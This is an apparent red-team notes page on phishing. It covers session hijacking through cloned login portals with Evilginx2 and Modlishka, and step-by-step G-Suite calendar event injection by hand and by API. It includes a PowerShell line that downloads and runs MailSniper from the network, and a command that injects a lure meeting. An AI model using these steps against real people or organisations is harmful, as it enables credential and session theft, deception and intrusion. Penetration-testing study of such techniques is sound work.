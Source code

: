 ```yaml
---
### The title for the content.
title : "Phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Gaining access through people."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Phising"]
---
```


## Phising

Misconfigurations and vulnerable software are not the only way into a targets network. Phishing can be a very valuable wrench in your toolkit, its perfect to gather credentials, sessions or even shells.

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console). When they auth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka) # MOVE TO OWN TOOL PAGE

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.  
![Calendar Event Injection](images/g-suite-cal-injection01.png)  
5. Ensure you click do not send.  
![Calendar Event Injection](images/g-suite-cal-injection02.png)  
6. The user will recieve a notification when the 'meeting' is supposed to happen.  
![Calendar Event Injection](images/g-suite-cal-injection03.png)  

![Calendar Event Injection](images/g-suite-cal-injection04.png)  

##### API

1. logon into the account you want to inject as  
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`  
3. Select Project and agree the ToS    
![Calendar Event Injection](images/g-suite-cal-injection_api_01.png)  
4. On the "Add credentials to your project" page click cancel.  
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.    
![Calendar Event Injection](images/g-suite-cal-injection_api_02.png)  
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.    
![Calendar Event Injection](images/g-suite-cal-injection_api_03.png)  
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_04.png)  
8. Copy your "Client ID" and "Client Secret".  
9. Navigate here: `https://developers.google.com/oauthplayground/`.  
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.  
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.  
![Calendar Event Injection](images/g-suite-cal-injection_api_05.png)  
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.  
![Calendar Event Injection](images/g-suite-cal-injection_api_06.png)  
13. Select the account you want to authorize, then click Allow.  
![Calendar Event Injection](images/g-suite-cal-injection_api_07.png)  
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).  
![Calendar Event Injection](images/g-suite-cal-injection_api_07-2.png)  
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".  
![Calendar Event Injection](images/g-suite-cal-injection_api_08.png)  
P.S. The "Access token" expires after 3600 seconds.  

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources. Allows us to steal tokens from disk, preform session hijack/riding, start keyloggers and pivot in the network from this entry point.

### Related tools

{{< related_pages_table tag="Phising" >}}